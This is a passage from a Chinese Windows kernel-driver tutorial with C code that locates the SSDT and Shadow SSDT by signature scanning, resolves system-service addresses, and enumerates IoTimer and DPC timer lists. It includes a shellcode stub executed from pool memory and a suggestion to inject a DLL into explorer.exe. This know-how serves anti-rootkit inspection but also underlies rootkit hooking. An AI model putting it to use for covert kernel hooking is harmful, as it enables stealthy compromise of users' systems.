PSYSTEM_SERVICE_TABLE KeServiceDescriptorTable;

typedef UINT64(__fastcall *SCFN)(UINT64, UINT64);
SCFN scfn;

// 解密算法
VOID DecodeSSDT()
{
    UCHAR strShellCode[36] = "\x48\x8B\xC1\x4C\x8D\x12\x8B\xF8\xC1\xEF\x07\x83\xE7\x20\x4E\x8B\x14\x17\x4D\x63\x1C\x82\x49\x8B\xC3\x49\xC1\xFB\x04\x4D\x03\xD3\x49\x8B\xC2\xC3";
    /*
    48:8BC1                  | mov rax,rcx                             |  rcx=index
    4C:8D12                  | lea r10,qword ptr ds:[rdx]              |  rdx=ssdt
    8BF8                     | mov edi,eax                             |
    C1EF 07                  | shr edi,7                               |
    83E7 20                  | and edi,20                              |
    4E:8B1417                | mov r10,qword ptr ds:[rdi+r10]          |
    4D:631C82                | movsxd r11,dword ptr ds:[r10+rax*4]     |
    49:8BC3                  | mov rax,r11                             |
    49:C1FB 04               | sar r11,4                               |
    4D:03D3                  | add r10,r11                             |
    49:8BC2                  | mov rax,r10                             |
    C3                       | ret                                     |
    */
    scfn = ExAllocatePool(NonPagedPool, 36);
    memcpy(scfn, strShellCode, 36);
}

// 获取 KeServiceDescriptorTable 首地址
ULONGLONG GetKeServiceDescriptorTable()
{
    // 设置起始位置
    PUCHAR StartSearchAddress = (PUCHAR)__readmsr(0xC0000082) - 0x1806FE;

    // 设置结束位置
    PUCHAR EndSearchAddress = StartSearchAddress + 0x8192;
    DbgPrint("扫描起始地址: %p --> 扫描结束地址: %p \n", StartSearchAddress, EndSearchAddress);

    PUCHAR ByteCode = NULL;

    UCHAR OpCodeA = 0, OpCodeB = 0, OpCodeC = 0;
    ULONGLONG addr = 0;
    ULONG templong = 0;

    for (ByteCode = StartSearchAddress; ByteCode < EndSearchAddress; ByteCode++)
    {
        // 使用MmIsAddressValid()函数检查地址是否有页面错误
        if (MmIsAddressValid(ByteCode) && MmIsAddressValid(ByteCode + 1) && MmIsAddressValid(ByteCode + 2))
        {
            OpCodeA = *ByteCode;
            OpCodeB = *(ByteCode + 1);
            OpCodeC = *(ByteCode + 2);

            // 对比特征值 寻找 nt!KeServiceDescriptorTable 函数地址
            // LyShark.com
            // 4c 8d 15 e5 9e 3b 00  lea r10,[nt!KeServiceDescriptorTable (fffff802`64da4880)]
            // 4c 8d 1d de 20 3a 00  lea r11,[nt!KeServiceDescriptorTableShadow (fffff802`64d8ca80)]
            if (OpCodeA == 0x4c && OpCodeB == 0x8d && OpCodeC == 0x15)
            {
                // 获取高位地址fffff802
                memcpy(&templong, ByteCode + 3, 4);

                // 与低位64da4880地址相加得到完整地址
                addr = (ULONGLONG)templong + (ULONGLONG)ByteCode + 7;
                return addr;
            }
        }
    }
    return  0;
}

// 得到函数相对偏移地址
ULONG GetOffsetAddress(ULONGLONG FuncAddr)
{
    ULONG dwtmp = 0;
    PULONG ServiceTableBase = NULL;
    if (KeServiceDescriptorTable == NULL)
    {
        KeServiceDescriptorTable = (PSYSTEM_SERVICE_TABLE)GetKeServiceDescriptorTable();
    }
    ServiceTableBase = (PULONG)KeServiceDescriptorTable->ServiceTableBase;
    dwtmp = (ULONG)(FuncAddr - (ULONGLONG)ServiceTableBase);
    return dwtmp << 4;
}

// 根据序号得到函数地址
ULONGLONG GetSSDTFunctionAddress(ULONGLONG NtApiIndex)
{
    ULONGLONG ret = 0;
    if (ssdt_base_aadress == 0)
    {
        // 得到ssdt基地址
        ssdt_base_aadress = GetKeServiceDescriptorTable();
    }
    if (scfn == NULL)
    {
        DecodeSSDT();
    }
    ret = scfn(NtApiIndex, ssdt_base_aadress);
    return ret;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("驱动程序卸载成功! \n"));
}

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    ULONGLONG ssdt_address = GetKeServiceDescriptorTable();
    DbgPrint("SSDT基地址 = %p \n", ssdt_address);

    // 根据序号得到函数地址
    ULONGLONG address = GetSSDTFunctionAddress(51);
    DbgPrint("[LyShark] NtOpenFile地址 = %p \n", address);
     
    // 得到相对SSDT的偏移量
    DbgPrint("函数相对偏移地址 = %p \n", GetOffsetAddress(address));

    DriverObject->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行后即可得到`SSDT`下标为`51`的函数也就是得到`NtOpenFile`的绝对地址和相对地址。



你也可以打开ARK工具，对比一下是否一致，如下图所示，`LyShark`的代码是没有任何问题的。



### 6.2 内核枚举SSSDT表基址

在笔者上一篇文章`《Win10枚举完整SSDT地址表》`实现了针对`SSDT`表的枚举功能，本章继续实现对`SSSDT`表的枚举，`ShadowSSDT`中文名`影子系统服务描述表`，SSSDT其主要的作用是管理系统中的图形化界面，其`Win32`子系统的内核实现是`Win32k.sys`驱动，属于GUI线程的一部分，其自身没有导出表，枚举`SSSDT`表其与`SSDT`原理基本一致。

如下是闭源ARK工具的枚举效果:



首先需要找到`SSSDT`表的位置，通过`《Win10内核枚举SSDT表基址》`文章中的分析可知，SSSDT就在SSDT的下面，只需要枚举`4c8d1dde1e3a00`特征即可，如果你找不到上一篇具体分析流程了，那么多半你是看到了转载文章。



先实现第一个功能，得到`SSSDT`表的基地址以及`SSDT`函数个数，完整代码如下所示。
```c
#include <ntifs.h>
#pragma intrinsic(__readmsr)

typedef struct _SYSTEM_SERVICE_TABLE
{
    PVOID          ServiceTableBase;
    PVOID          ServiceCounterTableBase;
    ULONGLONG      NumberOfServices;
    PVOID          ParamTableBase;
} SYSTEM_SERVICE_TABLE, *PSYSTEM_SERVICE_TABLE;

PSYSTEM_SERVICE_TABLE KeServiceDescriptorTableShadow = 0;
ULONG64 ul64W32pServiceTable = 0;

// 获取 KeServiceDescriptorTableShadow 首地址
ULONGLONG GetKeServiceDescriptorTableShadow()
{
    // 设置起始位置
    PUCHAR StartSearchAddress = (PUCHAR)__readmsr(0xC0000082) - 0x1808FE;

    // 设置结束位置
    PUCHAR EndSearchAddress = StartSearchAddress + 0x8192;
    // DbgPrint("扫描起始地址: %p --> 扫描结束地址: %p \n", StartSearchAddress, EndSearchAddress);

    PUCHAR ByteCode = NULL;

    UCHAR OpCodeA = 0, OpCodeB = 0, OpCodeC = 0;
    ULONGLONG addr = 0;
    ULONG templong = 0;

    for (ByteCode = StartSearchAddress; ByteCode < EndSearchAddress; ByteCode++)
    {
        // 使用MmIsAddressValid()函数检查地址是否有页面错误
        if (MmIsAddressValid(ByteCode) && MmIsAddressValid(ByteCode + 1) && MmIsAddressValid(ByteCode + 2))
        {
            OpCodeA = *ByteCode;
            OpCodeB = *(ByteCode + 1);
            OpCodeC = *(ByteCode + 2);

            // 对比特征值 寻找 nt!KeServiceDescriptorTable 函数地址
            /*
            lyshark.com kd> u KiSystemServiceRepeat
                nt!KiSystemServiceRepeat:
                fffff802`7c1d2b94 4c8d15e59c3b00  lea     r10,[nt!KeServiceDescriptorTable (fffff802`7c58c880)]
                fffff802`7c1d2b9b 4c8d1dde1e3a00  lea     r11,[nt!KeServiceDescriptorTableShadow (fffff802`7c574a80)]
                fffff802`7c1d2ba2 f7437880000000  test    dword ptr [rbx+78h],80h
                fffff802`7c1d2ba9 7413            je      nt!KiSystemServiceRepeat+0x2a (fffff802`7c1d2bbe)
                fffff802`7c1d2bab f7437800002000  test    dword ptr [rbx+78h],200000h
                fffff802`7c1d2bb2 7407            je      nt!KiSystemServiceRepeat+0x27 (fffff802`7c1d2bbb)
                fffff802`7c1d2bb4 4c8d1d051f3a00  lea     r11,[nt!KeServiceDescriptorTableFilter (fffff802`7c574ac0)]
                fffff802`7c1d2bbb 4d8bd3          mov     r10,r11
            */
            if (OpCodeA == 0x4c && OpCodeB == 0x8d && OpCodeC == 0x1d)
            {
                // 获取高位地址fffff802
                memcpy(&templong, ByteCode + 3, 4);

                // 与低位64da4880地址相加得到完整地址
                addr = (ULONGLONG)templong + (ULONGLONG)ByteCode + 7;
                return addr;
            }
        }
    }
    return  0;
}

// 得到SSSDT个数
ULONGLONG GetSSSDTCount()
{
    PSYSTEM_SERVICE_TABLE pWin32k;
    ULONGLONG W32pServiceTable;

    pWin32k = (PSYSTEM_SERVICE_TABLE)((ULONG64)KeServiceDescriptorTableShadow + sizeof(SYSTEM_SERVICE_TABLE));
    W32pServiceTable = (ULONGLONG)(pWin32k->ServiceTableBase);
    // DbgPrint("Count => %d \n", pWin32k->NumberOfServices);

    return pWin32k->NumberOfServices;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("驱动程序卸载成功! \n"));
}

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    KeServiceDescriptorTableShadow = (PSYSTEM_SERVICE_TABLE)GetKeServiceDescriptorTableShadow();

    DbgPrint("[LyShark] SSSDT基地址 = 0x%p \n", KeServiceDescriptorTableShadow);

    ULONGLONG count = GetSSSDTCount();

    DbgPrint("[LyShark] SSSDT个数 = %d \n", count);

    DriverObject->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
这段代码运行后即可得到`SSSDT`表基地址，以及该表中函数个数。



在此基础之上增加枚举计算过程即可，完整源代码如下所示。

SSSDT 函数起始index是`0x1000`，但`W32pServiceTable`是从基址开始记录的，这个误差则需要`(index-0x1000)`来得到，至于`+4`则是下一个元素与上一个元素的偏移。

计算公式：
 - W32pServiceTable + 4 * (index-0x1000)

```c
#include <ntifs.h>
#pragma intrinsic(__readmsr)

typedef struct _SYSTEM_SERVICE_TABLE
{
    PVOID          ServiceTableBase;
    PVOID          ServiceCounterTableBase;
    ULONGLONG      NumberOfServices;
    PVOID          ParamTableBase;
} SYSTEM_SERVICE_TABLE, *PSYSTEM_SERVICE_TABLE;

PSYSTEM_SERVICE_TABLE KeServiceDescriptorTableShadow = 0;
ULONG64 ul64W32pServiceTable = 0;

// 获取 KeServiceDescriptorTableShadow 首地址
ULONGLONG GetKeServiceDescriptorTableShadow()
{
    // 设置起始位置
    PUCHAR StartSearchAddress = (PUCHAR)__readmsr(0xC0000082) - 0x1808FE;

    // 设置结束位置
    PUCHAR EndSearchAddress = StartSearchAddress + 0x8192;
    // DbgPrint("扫描起始地址: %p --> 扫描结束地址: %p \n", StartSearchAddress, EndSearchAddress);

    PUCHAR ByteCode = NULL;

    UCHAR OpCodeA = 0, OpCodeB = 0, OpCodeC = 0;
    ULONGLONG addr = 0;
    ULONG templong = 0;

    for (ByteCode = StartSearchAddress; ByteCode < EndSearchAddress; ByteCode++)
    {
        // 使用MmIsAddressValid()函数检查地址是否有页面错误
        if (MmIsAddressValid(ByteCode) && MmIsAddressValid(ByteCode + 1) && MmIsAddressValid(ByteCode + 2))
        {
            OpCodeA = *ByteCode;
            OpCodeB = *(ByteCode + 1);
            OpCodeC = *(ByteCode + 2);

            // 对比特征值 寻找 nt!KeServiceDescriptorTable 函数地址
            /*
            lyshark.com kd> u KiSystemServiceRepeat
            nt!KiSystemServiceRepeat:
            fffff802`7c1d2b94 4c8d15e59c3b00  lea     r10,[nt!KeServiceDescriptorTable (fffff802`7c58c880)]
            fffff802`7c1d2b9b 4c8d1dde1e3a00  lea     r11,[nt!KeServiceDescriptorTableShadow (fffff802`7c574a80)]
            fffff802`7c1d2ba2 f7437880000000  test    dword ptr [rbx+78h],80h
            fffff802`7c1d2ba9 7413            je      nt!KiSystemServiceRepeat+0x2a (fffff802`7c1d2bbe)
            fffff802`7c1d2bab f7437800002000  test    dword ptr [rbx+78h],200000h
            fffff802`7c1d2bb2 7407            je      nt!KiSystemServiceRepeat+0x27 (fffff802`7c1d2bbb)
            fffff802`7c1d2bb4 4c8d1d051f3a00  lea     r11,[nt!KeServiceDescriptorTableFilter (fffff802`7c574ac0)]
            fffff802`7c1d2bbb 4d8bd3          mov     r10,r11
            */
            if (OpCodeA == 0x4c && OpCodeB == 0x8d && OpCodeC == 0x1d)
            {
                // 获取高位地址fffff802
                memcpy(&templong, ByteCode + 3, 4);

                // 与低位64da4880地址相加得到完整地址
                addr = (ULONGLONG)templong + (ULONGLONG)ByteCode + 7;
                return addr;
            }
        }
    }
    return  0;
}

// 得到SSSDT个数
ULONGLONG GetSSSDTCount()
{
    PSYSTEM_SERVICE_TABLE pWin32k;
    ULONGLONG W32pServiceTable;

    pWin32k = (PSYSTEM_SERVICE_TABLE)((ULONG64)KeServiceDescriptorTableShadow + sizeof(SYSTEM_SERVICE_TABLE));
    W32pServiceTable = (ULONGLONG)(pWin32k->ServiceTableBase);
    // DbgPrint("Count => %d \n", pWin32k->NumberOfServices);

    return pWin32k->NumberOfServices;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("驱动程序卸载成功! \n"));
}

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    KeServiceDescriptorTableShadow = (PSYSTEM_SERVICE_TABLE)GetKeServiceDescriptorTableShadow();

    DbgPrint("[LyShark] SSSDT基地址 = 0x%p \n", KeServiceDescriptorTableShadow);

    ULONGLONG count = GetSSSDTCount();

    DbgPrint("[LyShark] SSSDT个数 = %d \n", count);

    // 循环枚举SSSDT
    for (size_t Index = 0; Index < count; Index++)
    {

        PSYSTEM_SERVICE_TABLE pWin32k;
        ULONGLONG W32pServiceTable;

        pWin32k = (PSYSTEM_SERVICE_TABLE)((ULONG64)KeServiceDescriptorTableShadow + sizeof(SYSTEM_SERVICE_TABLE));
        W32pServiceTable = (ULONGLONG)(pWin32k->ServiceTableBase);

        // 获取SSSDT地址
        //ln win32k!W32pServiceTable+((poi(win32k!W32pServiceTable+4*(1-1000))&0x00000000`ffffffff)>>4)-10000000
        //u win32k!W32pServiceTable+((poi(win32k!W32pServiceTable+4*(Index-0x1000))&0x00000000`ffffffff)>>4)-0x10000000

        //u poi(win32k!W32pServiceTable+4*(1-0x1000))
        //u poi(win32k!W32pServiceTable+4*(1-0x1000))&0x00000000`ffffffff
        //u (poi(win32k!W32pServiceTable+4*(1-0x1000))&0x00000000`ffffffff)>>4

        //u win32k!W32pServiceTable+((poi(win32k!W32pServiceTable+4*(1-0x1000))&0x00000000`ffffffff)>>4)-0x10000000

        ULONGLONG qword_temp = 0;
        LONG dw = 0;

        // SSSDT 下标从1000开始，而W32pServiceTable是从0开始
        // + 4 则是每次向下4字节就是下一个地址
        qword_temp = W32pServiceTable + 4 * (Index - 0x1000);
        
        dw = *(PLONG)qword_temp;
        // dw = qword_temp & 0x00000000ffffffff;
        dw = dw >> 4;
        qword_temp = W32pServiceTable + (LONG64)dw;

        DbgPrint("[LyShark] ID: %d | SSSDT: 0x%p \n", Index, qword_temp);
    }

    DriverObject->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

枚举效果如下图所示所示，注意这一步必须要在GUI线程中执行，否则会异常，建议将枚举过程写成DLL文件，注入到`explorer.exe`进程内执行；



### 6.3 内核枚举IoTimer定时器

今天继续分享内核枚举系列知识，这次我们来学习如何通过代码的方式枚举内核`IoTimer`定时器，内核定时器其实就是在内核中实现的时钟，该定时器的枚举非常简单，因为在`IoInitializeTimer`初始化部分就可以找到`IopTimerQueueHead`地址，该变量内存储的就是定时器的链表头部。枚举IO定时器的案例并不多见，即便有也是无法使用过时的，此教程学到肯定就是赚到了。



内核I/O定时器（Kernel I/O Timer）是Windows内核中的一个对象，它允许内核或驱动程序设置一个定时器，以便在指定的时间间隔内调用一个回调函数。通常，内核I/O定时器用于周期性地执行某个任务，例如检查驱动程序的状态、收集性能数据等。

内核I/O定时器通常由内核或驱动程序创建，使用`KeInitializeTimerEx`函数进行初始化。然后，使用`KeSetTimerEx`函数启动定时器，以指定间隔和回调函数。每次定时器超时时，回调函数都会被调用，然后定时器重新启动以等待下一个超时。

内核I/O定时器是内核中常见的机制之一，它允许内核和驱动程序实现各种功能，如性能监视、定时执行任务等。但是，使用内核I/O定时器必须小心谨慎，因为它们可能会影响系统的性能和稳定性，特别是当存在大量定时器时。

枚举Io定时器过程是这样的：

 - 1.找到`IoInitializeTimer`函数，该函数可以通过`MmGetSystemRoutineAddress`得到。
 - 2.找到地址以后，我们向下增加`0xFF`偏移量，并搜索特征定位到`IopTimerQueueHead`链表头。
 - 3.将链表头转换为`IO_TIMER`结构体，并循环链表头输出。

这里解释一下为什么要找`IoInitializeTimer`这个函数他是一个初始化函数，既然是初始化里面一定会涉及到链表的存储问题，找到他就能找到定时器链表基址，该函数的定义如下。
```c
NTSTATUS 
  IoInitializeTimer(
    IN PDEVICE_OBJECT  DeviceObject,     // 设备对象指针
    IN PIO_TIMER_ROUTINE  TimerRoutine,  // 定时器例程
    IN PVOID  Context                    // 传给定时器例程的函数
    );
```
接着我们需要得到IO定时器的结构定义，在`DEVICE_OBJECT`设备对象指针中存在一个`Timer`属性。
```c
kd> dt _DEVICE_OBJECT
ntdll!_DEVICE_OBJECT
   +0x000 Type             : Int2B
   +0x002 Size             : Uint2B
   +0x004 ReferenceCount   : Int4B
   +0x008 DriverObject     : Ptr64 _DRIVER_OBJECT
   +0x010 NextDevice       : Ptr64 _DEVICE_OBJECT
   +0x018 AttachedDevice   : Ptr64 _DEVICE_OBJECT
   +0x020 CurrentIrp       : Ptr64 _IRP
   +0x028 Timer            : Ptr64 _IO_TIMER
   +0x030 Flags            : Uint4B
   +0x034 Characteristics  : Uint4B
   +0x038 Vpb              : Ptr64 _VPB
   +0x040 DeviceExtension  : Ptr64 Void
   +0x048 DeviceType       : Uint4B
   +0x04c StackSize        : Char
   +0x050 Queue            : <anonymous-tag>
   +0x098 AlignmentRequirement : Uint4B
   +0x0a0 DeviceQueue      : _KDEVICE_QUEUE
   +0x0c8 Dpc              : _KDPC
   +0x108 ActiveThreadCount : Uint4B
   +0x110 SecurityDescriptor : Ptr64 Void
   +0x118 DeviceLock       : _KEVENT
   +0x130 SectorSize       : Uint2B
   +0x132 Spare1           : Uint2B
   +0x138 DeviceObjectExtension : Ptr64 _DEVOBJ_EXTENSION
   +0x140 Reserved         : Ptr64 Void
```



这里的这个`+0x028 Timer`定时器是一个结构体`_IO_TIMER`其就是IO定时器的所需结构体。
```c
kd> dt _IO_TIMER
ntdll!_IO_TIMER
   +0x000 Type             : Int2B
   +0x002 TimerFlag        : Int2B
   +0x008 TimerList        : _LIST_ENTRY
   +0x018 TimerRoutine     : Ptr64     void 
   +0x020 Context          : Ptr64 Void
   +0x028 DeviceObject     : Ptr64 _DEVICE_OBJECT
```



如上方的基础知识有了也就够了，接着就是实际开发部分，首先我们需要编写一个`GetIoInitializeTimerAddress()`函数，让该函数可以定位到`IoInitializeTimer`所在内核中的基地址上面，具体实现调用代码如下所示。
```c
#include <ntifs.h>

// 得到IoInitializeTimer基址
PVOID GetIoInitializeTimerAddress()
{
    PVOID VariableAddress = 0;
    UNICODE_STRING uioiTime = { 0 };

    RtlInitUnicodeString(&uioiTime, L"IoInitializeTimer");
    VariableAddress = (PVOID)MmGetSystemRoutineAddress(&uioiTime);
    if (VariableAddress != 0)
    {
        return VariableAddress;
    }
    return 0;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint(("hello lyshark.com \n"));

    // 得到基址
    PUCHAR IoInitializeTimer = GetIoInitializeTimerAddress();
    DbgPrint("IoInitializeTimer Address = %p \n", IoInitializeTimer);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行这个驱动程序，然后对比下是否一致:



接着我们在反汇编代码中寻找`IoTimerQueueHead`，此处在LyShark系统内这个偏移位置是`nt!IoInitializeTimer+0x5d` 具体输出位置如下。
```c
kd> uf IoInitializeTimer

nt!IoInitializeTimer+0x5d:
fffff805`74b85bed 488d5008        lea     rdx,[rax+8]
fffff805`74b85bf1 48897018        mov     qword ptr [rax+18h],rsi
fffff805`74b85bf5 4c8d054475e0ff  lea     r8,[nt!IopTimerLock (fffff805`7498d140)]
fffff805`74b85bfc 48897820        mov     qword ptr [rax+20h],rdi
fffff805`74b85c00 488d0dd9ddcdff  lea     rcx,[nt!IopTimerQueueHead (fffff805`748639e0)]
fffff805`74b85c07 e8141e98ff      call    nt!ExInterlockedInsertTailList (fffff805`74507a20)
fffff805`74b85c0c 33c0            xor     eax,eax
```

在WinDBG中标注出颜色`lea rcx,[nt!IopTimerQueueHead (fffff805748639e0)]`更容易看到。


接着就是通过代码实现对此处的定位，定位我们就采用特征码搜索的方式，如下代码是特征搜索部分。

 - StartSearchAddress 代表开始位置
 - EndSearchAddress 代表结束位置，粗略计算0xff就可以定位到了。

```c
#include <ntifs.h>

// 得到IoInitializeTimer基址
PVOID GetIoInitializeTimerAddress()
{
    PVOID VariableAddress = 0;
    UNICODE_STRING uioiTime = { 0 };

    RtlInitUnicodeString(&uioiTime, L"IoInitializeTimer");
    VariableAddress = (PVOID)MmGetSystemRoutineAddress(&uioiTime);
    if (VariableAddress != 0)
    {
        return VariableAddress;
    }
    return 0;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint(("hello lyshark.com \n"));

    // 得到基址
    PUCHAR IoInitializeTimer = GetIoInitializeTimerAddress();
    DbgPrint("IoInitializeTimer Address = %p \n", IoInitializeTimer);

    INT32 iOffset = 0;
    PLIST_ENTRY IoTimerQueueHead = NULL;

    PUCHAR StartSearchAddress = IoInitializeTimer;
    PUCHAR EndSearchAddress = IoInitializeTimer + 0xFF;
    UCHAR v1 = 0, v2 = 0, v3 = 0;

    for (PUCHAR i = StartSearchAddress; i < EndSearchAddress; i++)
    {
        if (MmIsAddressValid(i) && MmIsAddressValid(i + 1) && MmIsAddressValid(i + 2))
        {
            v1 = *i;
            v2 = *(i + 1);
            v3 = *(i + 2);

            // 三个特征码
            if (v1 == 0x48 && v2 == 0x8d && v3 == 0x0d)
            {
                memcpy(&iOffset, i + 3, 4);
                IoTimerQueueHead = (PLIST_ENTRY)(iOffset + (ULONG64)i + 7);
                DbgPrint("IoTimerQueueHead = %p \n", IoTimerQueueHead);
                break;
            }
        }
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

搜索三个特征码`v1 == 0x48 && v2 == 0x8d && v3 == 0x0d`从而得到内存位置，运行驱动对比下。

 - 运行代码会取出`lea`指令后面的操作数，而不是取出lea指令的内存地址。



最后一步就是枚举部分，我们需要前面提到的`IO_TIMER`结构体定义。

 - PIO_TIMER Timer = CONTAINING_RECORD(NextEntry, IO_TIMER, TimerList) 得到结构体，循环输出即可。

```c
#include <ntddk.h>
#include <ntstrsafe.h>

typedef struct _IO_TIMER
{
  INT16        Type;
  INT16        TimerFlag;
  LONG32       Unknown;
  LIST_ENTRY   TimerList;
  PVOID        TimerRoutine;
  PVOID        Context;
  PVOID        DeviceObject;
}IO_TIMER, *PIO_TIMER;


// 得到IoInitializeTimer基址
PVOID GetIoInitializeTimerAddress()
{
  PVOID VariableAddress = 0;
  UNICODE_STRING uioiTime = { 0 };

  RtlInitUnicodeString(&uioiTime, L"IoInitializeTimer");
  VariableAddress = (PVOID)MmGetSystemRoutineAddress(&uioiTime);
  if (VariableAddress != 0)
  {
    return VariableAddress;
  }
  return 0;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
  DbgPrint("卸载完成... \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
  DbgPrint(("hello lyshark.com \n"));

  // 得到基址
  PUCHAR IoInitializeTimer = GetIoInitializeTimerAddress();
  DbgPrint("IoInitializeTimer Address = %p \n", IoInitializeTimer);

  // 搜索IoTimerQueueHead地址
  /*
    nt!IoInitializeTimer+0x5d:
    fffff806`349963cd 488d5008        lea     rdx,[rax+8]
    fffff806`349963d1 48897018        mov     qword ptr [rax+18h],rsi
    fffff806`349963d5 4c8d05648de0ff  lea     r8,[nt!IopTimerLock (fffff806`3479f140)]
    fffff806`349963dc 48897820        mov     qword ptr [rax+20h],rdi
    fffff806`349963e0 488d0d99f6cdff  lea     rcx,[nt!IopTimerQueueHead (fffff806`34675a80)]
    fffff806`349963e7 e8c43598ff      call    nt!ExInterlockedInsertTailList (fffff806`343199b0)
    fffff806`349963ec 33c0            xor     eax,eax
  */
  INT32 iOffset = 0;
  PLIST_ENTRY IoTimerQueueHead = NULL;

  PUCHAR StartSearchAddress = IoInitializeTimer;
  PUCHAR EndSearchAddress = IoInitializeTimer + 0xFF;
  UCHAR v1 = 0, v2 = 0, v3 = 0;

  for (PUCHAR i = StartSearchAddress; i < EndSearchAddress; i++)
  {
    if (MmIsAddressValid(i) && MmIsAddressValid(i + 1) && MmIsAddressValid(i + 2))
    {
      v1 = *i;
      v2 = *(i + 1);
      v3 = *(i + 2);

      // fffff806`349963e0 48 8d 0d 99 f6 cd ff  lea rcx,[nt!IopTimerQueueHead (fffff806`34675a80)]
      if (v1 == 0x48 && v2 == 0x8d && v3 == 0x0d)
      {
        memcpy(&iOffset, i + 3, 4);
        IoTimerQueueHead = (PLIST_ENTRY)(iOffset + (ULONG64)i + 7);
        DbgPrint("IoTimerQueueHead = %p \n", IoTimerQueueHead);
        break;
      }
    }
  }

  // 枚举列表
  KIRQL OldIrql;

  // 获得特权级
  OldIrql = KeRaiseIrqlToDpcLevel();

  if (IoTimerQueueHead && MmIsAddressValid((PVOID)IoTimerQueueHead))
  {
    PLIST_ENTRY NextEntry = IoTimerQueueHead->Flink;
    while (MmIsAddressValid(NextEntry) && NextEntry != (PLIST_ENTRY)IoTimerQueueHead)
    {
      PIO_TIMER Timer = CONTAINING_RECORD(NextEntry, IO_TIMER, TimerList);

      if (Timer && MmIsAddressValid(Timer))
      {
        DbgPrint("IO对象地址: %p \n", Timer);
      }
      NextEntry = NextEntry->Flink;
    }
  }

  // 恢复特权级
  KeLowerIrql(OldIrql);

  Driver->DriverUnload = UnDriver;
  return STATUS_SUCCESS;
}
```

运行这段源代码，并可得到以下输出，由于没有IO定时器所以输出结果是空的：



至此IO定时器的枚举就介绍完了，在教程中你已经学会了使用特征码定位这门技术，相信你完全可以输出内核中想要得到的任何结构体。

### 6.4 内核枚举DpcTimer定时器

在笔者上一篇文章`《内核枚举IoTimer定时器》`中我们通过`IoInitializeTimer`这个API函数为跳板，向下扫描特征码获取到了`IopTimerQueueHead`也就是IO定时器的队列头，本章学习的枚举DPC定时器依然使用特征码扫描，唯一不同的是在新版系统中DPC是被异或加密的，想要找到正确的地址，只是需要在找到DPC表头时进行解密操作即可。



**DPC定时器的作用是什么？**

DPC（Deferred Procedure Call）是一种异步执行的机制。它允许内核代码在不中断当前进程的情况下，延迟执行一些工作。DPC的执行是由内核定时器触发的。内核定时器是一种特殊的内核对象，用于定时执行某个特定的操作。在DPC的上下文中，内核可以安全地访问任何内核数据结构，而不会引起死锁或其他问题。

在内核中可以使用DPC定时器设置任意定时任务，当到达某个节点时自动触发定时回调，定时器的内部使用`KTIMER`对象，当设置任务时会自动插入到`DPC`队列，由操作系统循环读取`DPC`队列并执行任务，枚举`DPC`定时器可得知系统中存在的`DPC`任务。

要想在新版系统中得到DPC定时器则需要执行的步骤有哪些？

 - 1.找到`KiProcessorBlock`地址并解析成`_KPRCB`结构
 - 2.在`_KPRCB`结构中得到`_KTIMER_TABLE`偏移
 - 3.解析`_KTIMER_TABLE_ENTRY`得到加密后的双向链表

首先`_KPRCB`这个结构体与CPU内核对应，获取方式可通过一个未导出的变量`nt!KiProcessorBlock`来得到，如下双核电脑，结构体存在两个与之对应的结构地址。
```c
kd> dq nt!KiProcessorBlock
fffff807`70a32cc0  fffff807`6f77c180 ffffbe81`3cee0180
fffff807`70a32cd0  00000000`00000000 00000000`00000000
fffff807`70a32ce0  00000000`00000000 00000000`00000000
```

此`KiProcessorBlock`是一个数组，其第一个结构体`TimerTable`则是结构体的偏移。
```c
kd> dt _KPRCB fffff807`6f77c180
ntdll!_KPRCB
   +0x000 MxCsr            : 0x1f80
   +0x3680 TimerTable       : _KTIMER_TABLE (此处)
   +0x5880 DpcGate          : _KGATE
```

接下来是把所有的`KTIMER`都枚举出来，KTIMER在`TimerTable`中的存储方式是数组+双向链表。
```c
kd> dt _KTIMER_TABLE
ntdll!_KTIMER_TABLE
   +0x000 TimerExpiry      : [64] Ptr64 _KTIMER
   +0x200 TimerEntries     : [256] _KTIMER_TABLE_ENTRY (此处)
```

到了`_KTIMER_TABLE_ENTRY`这里，`Entry`开始的双向链表，每一个元素都对应一个`Timer`也就是说我们已经可以遍历所有未解密的`Time`变量了。
```c
kd> dt _KTIMER_TABLE_ENTRY 0xfffff807`6f77c180 + 0x3680
ntdll!_KTIMER_TABLE_ENTRY
   +0x000 Lock             : 0
   +0x008 Entry            : _LIST_ENTRY [ 0x00000000`00000000 - 0x00000000`00000000 ]
   +0x018 Time             : _ULARGE_INTEGER 0x0

kd> dt _KTIMER_TABLE_ENTRY 0xfffff807`6f77c180 + 0x3680 + 0x200
ntdll!_KTIMER_TABLE_ENTRY
   +0x000 Lock             : 0
   +0x008 Entry            : _LIST_ENTRY [ 0xffffa707`a0d3e1a0 - 0xffffa707`a0d3e1a0 ]
   +0x018 Time             : _ULARGE_INTEGER 0x00000001`a8030353
```

至于如何解密，我们需要得到加密位置，如下通过`KeSetTimer`找到`KeSetTimerEx`从中得到`DCP`加密流程。
```c
kd> u nt!KeSetTimer
nt!KeSetTimer:
fffff803`0fc63a40 4883ec38        sub     rsp,38h
